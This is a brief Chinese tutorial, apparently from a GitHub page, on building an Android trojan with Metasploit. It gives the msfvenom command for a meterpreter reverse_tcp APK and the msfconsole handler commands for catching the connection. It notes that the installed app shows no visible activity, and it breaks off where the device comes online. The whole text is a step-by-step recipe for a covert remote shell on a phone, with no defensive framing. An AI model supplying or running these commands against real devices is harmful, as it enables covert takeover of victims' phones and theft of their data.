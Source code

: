 # Metasploit生成木马攻击Android设备

## 0X001 生成木马

 命令：`msfvenom -p android/meterpreter/reverse_tcp LHOST=10.203.87.64 LPORT=4444 R > /root/apk.apk`

解释：

LHOST=10.203.87.64 这个是配置接受反弹shell连接的主机IP  一般就是你kali本机IP

LPORT=4444 接受的端口

这两个要和exp模块里面的配置一样，一般就是本地

注：出现安装问题可以这样优化木马，没试过

 `zipalign -v 4 apk.apk  napk1.apk`

## 0X002 启动msfconsole

模块：`use exploit/multi/handler`

payload:  `set payload android/meterpreter/reverse_tcp`

参数IP\(和木马一致，一般是kali本机\)： `set LHOST 10.203.87.64`

参数端口\(和木马一致，不设置的话是4444\)：`set LPORT 4444`

`show options`一下看看有没有配置成功

`exploit`开始执行

这时在Android手机上（在同一子网下）安装，点击运行（啥反应都没有，后台也没有）、

当android上线后会有一个提示，大概就是这个样子

